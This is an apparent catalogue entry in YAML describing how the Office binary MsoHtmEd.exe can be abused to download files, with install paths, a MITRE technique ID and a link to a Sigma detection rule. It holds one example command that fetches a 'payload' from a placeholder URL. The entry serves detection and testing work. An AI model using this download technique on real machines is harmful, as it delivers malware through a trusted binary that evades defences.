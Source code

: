 ```yaml
---
Name: MsoHtmEd.exe
Description: Microsoft Office component
Author: Nir Chako
Created: 2022-07-24
Commands:
  - Command: MsoHtmEd.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSOHTMED.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/19396788dbedc57249a46efed2bb1927abc376d4/rules/windows/process_creation/proc_creation_win_lolbin_msohtmed_download.yml
  - IOC: Suspicious Office application internet/network traffic
Acknowledgement:
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

